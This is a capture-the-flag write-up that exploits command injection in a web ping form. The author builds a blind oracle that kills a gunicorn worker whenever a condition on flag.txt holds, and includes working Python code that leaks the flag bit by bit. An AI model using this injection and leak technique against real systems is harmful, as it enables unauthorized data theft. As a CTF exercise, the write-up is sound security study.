 # web/Ping Pong: Under Maintenance
So in this challenge we see that we have a command injection vulnerability that we can exploit similarly to the one in the previous challenge. However, instead of just adding a semicolon to start a new command and then `cat`ing the flag, we can't see the output.

I then tried just using a command to put the flag text into `templates/index.html`, and to put some new code inside the `main.py` file, but neither worked because the templates weren't automatically reloaded (and the code had even lower chances of reloading if the templates didn't).

My next instinct was to do some sort of data exfiltration over the network (like sending a HTTP request to some remote server). But someone foresaw this, and outbound connections are disabled on the machine.

Then I thought, "it says that outbound connections are disabled, but it doesn't say anything about inbound connections!" My first instinct was to do some sort of reverse shell or static file server that would serve the user the flag file. But the problem is that only a certain port is forwarded for the web server, and I would have to stop the existing server to run a new server. However, stopping the server stopped the entire container that the challenge was running on (as later confirmed by eyangch). (Sadly, I spent 2 days in-contest on this flawed route.)

So I tried to look for some sort of indirect leak. I realized that even if I couldn't stop the entire web server without crashing the whole challenge, I could crash part of it to indicate a true or false state. And then, I could use that to leak the flag, bit by bit.

I knew from previous attempts that gunicorn spawned worker processes for each request, so killing the subprocess would stop the connection without making the entire server crash, which made it feasible to carry out without having to restart the server a bunch of times.

To make things easier, I created some utility functions that would crash/not crash a process depending on a boolean value. I used Python on the remote server to validate conditions to make things simpler. 
```python3
def send(command):
    try:
        r = requests.post(host, data={'hostname': 'a; ' + command})
        return False
    except requests.exceptions.ConnectionError:
        return True
    
def test(cond):
    # single quotes required in cond
    return send(r'''python3 -c "import os; flag = open('flag.txt').read(); os.popen('kill -9 $PPID') if (''' + cond + ') else 1"')
```
To leak the flag, I first had to find out the length to figure out how much to loop, which I did by just incrementing a counter value (because I assumed that the flag would be fairly short). 
```python3
def getlen(s):
    l = 0
    while not test(f"len({s}) == {l}"):
        l += 1 
    return l 

#print(getlen('flag'))
# flag length = 19
```
Then, it was just a matter of extracting bits from each character, and I had the flag!
```python3
def leakchar(c):
    n = 0
    for i in range(8):
        b = test(f"(ord({c}) & (1<<{i})) > 0")
        if b: b = 1 
        else: b = 0
        #print(b)
        n += b << i
    return chr(n)
# ...
flaglen = 19
def leakstr(s, l):
    res = ''
    for i in range(l):
        res += leakchar(f"{s}[{i}]")
        print(res)
    return res
flag = leakstr('flag', flaglen)
print(flag)
# LITCTF{c4refu1_fr}
```



